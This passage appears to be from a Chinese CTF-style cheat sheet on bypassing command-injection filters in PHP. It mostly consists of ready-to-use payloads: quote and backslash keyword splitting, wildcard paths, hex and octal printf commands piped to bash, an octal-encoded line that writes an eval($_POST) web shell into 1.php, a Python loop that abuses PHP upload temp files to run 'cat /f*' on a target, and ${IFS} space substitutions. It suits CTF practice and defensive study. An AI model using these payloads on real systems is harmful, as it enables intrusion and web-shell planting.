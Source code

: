 ```
```

绕过

```
flag.php  
fla\g.php 
fla''g.php
fla""g.php
fla?.php
fla*.php
ca''t flag.php
ca""t flag.php
ca\t flag.php
a=fla;b=g.php;cat $a$b;

$(printf "\154\163") ==>ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
/???/??? /????.??? ===>  /bin/cat flag.php
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|bash ==>cat /flag

{printf,"\74\77\160\150160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php 
```

8.  文件上传执行命令，php能接受文件上传，即使没有提供上传接口，上传的文件默认会保存在

```
/tmp/phpxxxxxx => x代表随机的英文大小写字母 
```

可利用通配符形式进行命令执行

```
 import requests
while True:
 print(1)
 url="http://101.34.94.44:7001/rce8/index.php?cmd=. /???/????????[@-[]"

 files={'file':'cat /f*'}
 response=requests.post(url,files=files)
 html = response.text
 if 'flag{' in html:
  print(html)
  break 
```

9.  空格绕过

```
${IFS}  
$IFS
$IFS$9
%09 ===> tab
< 
```
